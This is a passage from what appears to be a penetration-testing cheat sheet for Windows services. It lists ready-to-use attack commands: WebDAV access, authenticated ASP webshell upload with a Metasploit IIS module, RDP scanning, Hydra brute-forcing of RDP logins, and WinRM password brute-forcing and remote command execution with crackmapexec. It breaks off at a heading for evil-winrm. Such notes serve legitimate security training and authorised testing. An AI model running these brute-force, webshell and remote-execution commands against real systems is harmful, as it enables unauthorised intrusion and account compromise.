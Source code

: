 - Interact with WebDAV using cadaver

```
cadaver <URL>/<WEBDAV_DIR>
```

- ASP Webshell upload with Metasploit (authenticated)

```
use exploit/windows/iis/iis_webdav_upload_asp
```

```
set PATH <WEBDAV_PATH>/shell.asp
```

<div style="page-break-after: always;"></div>

# RDP
---

- RDP Can run on any port, so to check whether a port is running RDP
	- Remember to set RPORT!

```
use auxiliary/scanner/rdp/rdp_scanner
```

- Brute force with Hydra

```
hydra -L <USERNAMES_LIST> -P <PASSWORD_LIST> <IP> rdp -s <PORT>
```

- Connect via xfreerdp

```
xfreerdp /u:<USER> /p:<PASSWORD> /v:<IP>:<PORT>
```

<div style="page-break-after: always;"></div>

# WinRM
---

- Might run on port 5985 or 5986(HTTPS) (won't show up unless all ports are scanned)

- Brute force WinRM with crackmapexec

```
crackmapexec winrm <IP> -u <USERNAME> -p <PASSWORD_LIST>
```

- Execute commands with crackmapexec

```
crackmapexec winrm <IP> -u <USERNAME> -p <PASSWORD> -x "<COMMAND>"
```

- Get Powershell with evil-winrm
